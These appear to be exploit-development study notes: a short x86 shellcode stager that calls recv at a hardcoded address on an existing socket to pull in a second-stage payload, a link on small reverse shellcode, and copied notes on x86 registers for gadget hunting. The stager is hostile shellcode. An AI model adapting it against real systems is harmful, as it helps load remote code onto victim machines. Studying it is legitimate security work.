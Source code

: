 ```x86

sub esp, 0x64 ; Make space for args on stack (x86), (!!const b, not exploit specific)

xor ebx,ebx ;
push ebx    ; Push 0 onto the stack for the flag argument

add bh, 0x4 ;
push ebx    ; Push 0x400 to stack for buffer length argument (0x00 in bl so => 1024)

push esp        ;
pop ebx         ;
add ebx, 0x64   ; (const B, not exploit specific)
push ebx        ; Push pointer to output buffer location

push dword ptr ds:[eax] ; Pushes the value of the socket descriptor to stack

mov eax, 0x40252c90 ; recv shifted to left and NOP added, (!!const c, recv addr,  
                    ; exploit specific)

shr eax, 8          ; shift it right, removing NOP and adding 00
call eax            ; calls the function
```
#### Small Shellcode (Stager)
https://sekuro.io/blog/writing-small-reverse-shellcode/
# Registers
*Copied here for the sake of reminding which registers are the best to look at for certain gadgets (using registers for what they are designed for is more likely to result in useful gadgets being present)*

https://www.eecg.utoronto.ca/~amza/www.mindsec.com/files/x86regs.html

The main tools to write programs in x86 assembly are the processor registers. The registers are like variables built in the processor. Using registers instead of memory to store values makes the process faster and cleaner. The problem with the x86 series of processors is that there are few registers to use. This section describes the main use of each register and ways to use them. That in note that the rules described here are more suggestions than strict rules. Some operations need absolutely some kind of registers but most of the you can use any of the freely.

Here is a list of the available registers on the 386 and higher processors. This list shows the 32 bit registers. Most of the can be broken down to 16 or even 8 bits register.
## General registers
As the title says, general register are the one we use most of the time Most of the instructions perform on these registers. They all can be broken down into 16 and 8 bit registers.

32 bits :  EAX EBX ECX EDX
16 bits : AX BX CX DX
 8 bits : AH AL BH BL CH CL DH DL

The "H" and "L" suffix on the 8 bit registers stand for high byte and low byte. With this out of the way, let's see their individual main use
